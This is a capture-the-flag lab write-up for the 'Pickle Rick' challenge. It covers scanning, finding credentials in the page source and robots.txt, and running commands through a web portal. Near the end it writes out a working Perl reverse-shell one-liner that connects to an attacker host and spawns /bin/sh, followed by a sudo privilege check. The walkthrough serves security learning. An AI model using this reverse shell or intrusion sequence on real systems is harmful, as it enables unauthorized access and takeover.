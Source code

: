 ```yaml
---
layout: post
permalink: /posts/thm/pickle-rick
title: "Pickle Rick"
---
```


This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle. <br />

To beging with scan the target machine with nmap

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/pickle-rick/nmap.png)

There are open ports 22 and 80. Visit the website.

![website](/assets/images/thm/pickle-rick/website.png)

Let's first view the source code.

![source-code](/assets/images/thm/pickle-rick/source-code.png)

We have found a username there `R1ckRul3s` <br />
The other thing that we can try is to scan the website for hidden directories. I'm going to use gobuster for that purpose.

```
gobuster dir -u http://10.10.254.244/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,txt,html
```

![gobuster](/assets/images/thm/pickle-rick/gobuster.png)

We have found some directories let's first look at robots.txt

![robots](/assets/images/thm/pickle-rick/robots.png)

Hmm... there is a strange string. Let's try something, go to the login page and try to login with the username which we had found and this wierd string as password

![login](/assets/images/thm/pickle-rick/login.png)

![portal](/assets/images/thm/pickle-rick/portal.png)

Good, we are in. The portal page show us that we can execute commands there.

![ls](/assets/images/thm/pickle-rick/ls.png)

Woohoo, we have found an ingredient. But wait cat command is disabled.

![disabled](/assets/images/thm/pickle-rick/disabled.png)

What other commands we can use to read files try with this one:

```
less Sup3rS3cretPickl3Ingred.txt
```

Good, now we have our first ingredient. There is another file `clue.txt`

![clue](/assets/images/thm/pickle-rick/clue.png)

That is a good clue. Let's look around the system

```
ls home
```

![ls-home](/assets/images/thm/pickle-rick/ls-home.png

This rick directory looks suspicious

```
ls /home/rick
```

![ls-rick](/assets/images/thm/pickle-rick/ls-rick.png

Here we go, we have found the second ingredient. Just read it

```
less /home/rick/'second ingredients'
```

Now we need to find the last third ingredient. I tried to execute a revesre shell `https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet` first try with the bash script wasn't successful but the perl one works

```
perl -e 'use Socket;$i="10.10.198.228";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![shell](/assets/images/thm/pickle-rick/shell.png

We have a shell acces now we have to escalate our privileges. One of the first thing that you can check is whether our user has any sudo permissions

```
sudo -l
```

![sudo-l](/assets/images/thm/pickle-rick/sudo-l.png

Wow we have the right to execute any commands with as root without password

![3rd](/assets/images/thm/pickle-rick/3rd.png